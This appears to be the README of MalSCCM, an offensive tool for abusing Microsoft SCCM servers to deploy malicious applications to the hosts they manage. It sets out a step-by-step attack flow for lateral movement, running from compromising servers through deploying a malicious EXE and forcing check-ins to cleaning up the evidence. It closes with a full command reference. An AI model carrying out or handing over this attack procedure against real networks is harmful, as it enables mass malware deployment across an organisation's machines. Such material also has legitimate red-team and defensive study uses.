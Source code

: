 # MalSCCM

This tool allows you to abuse local or remote SCCM servers to deploy malicious applications to hosts they manage. To use this tool your current process must have admin rights over the SCCM server.

Typically deployments of SCCM will either have the management server and the primary server on the same host, in which case the host returned from the locate command can be used as the primary server.

If that is not the case you will need to compromise the management host returned with locate so that you can then run locate again on that host and get the primary server hostname. Once you have that and admin access you are good to go! 

## Credits 

Massive credit to PowerSCCM (https://github.com/PowerShellMafia/PowerSCCM) which this is all based off, this would not have been done without the work of @harmj0y, @jaredcatkinson, @enigma0x3, @mattifestation. 

## Attack Flow 

* Compromise client, use locate to find management server 
* Compromise management server, use locate to find primary server
* use Inspect on primary server to view who you can target
* Create a new device group for the machines you want to laterally move too
* Add your targets into the new group 
* Create an application pointing to a malicious EXE on a world readable share 
* Deploy the application to the target group 
* Force the target group to checkin for updates 
* Profit...
* Cleanup the application and deployment
* Delete the group

## Help menu 

```
Commands listed below have optional parameters in <>. 

Attempt to find the SCCM management and primary servers:
    MalSCCM.exe locate

Inspect the primary server to gather SCCM information:
    MalSCCM.exe inspect </server:PrimarySiteHostname> </all /computers /deployments /groups /applications /forest /packages /primaryusers>

Create/Modify/Delete Groups to add targets in for deploying malicious apps. Groups can either be for devices or users:
    MalSCCM.exe group /create /groupname:example /grouptype:[user|device] </server:PrimarySiteHostname>
    MalSCCM.exe group /delete /groupname:example </server:PrimarySiteHostname>
    MalSCCM.exe group /addhost /groupname:example /host:examplehost </server:PrimarySiteHostname>
    MalSCCM.exe group /adduser /groupname:example /user:exampleuser </server:PrimarySiteHostname>

Create/Deploy/Delete malicious applications:
    MalSCCM.exe app /create /name:appname /uncpath:""\\unc\path"" </server:PrimarySiteHostname>
    MalSCCM.exe app /delete /name:appname </server:PrimarySiteHostname>
    MalSCCM.exe app /deploy /name:appname /groupname:example /assignmentname:example2 </server:PrimarySiteHostname>
    MalSCCM.exe app /deletedeploy /name:appname </server:PrimarySiteHostname>
    MalSCCM.exe app /cleanup /name:appname </server:PrimarySiteHostname>

Force devices of a group to checkin within a couple minutes:
    MalSCCM.exe checkin /groupname:example </server:PrimarySiteHostname>
```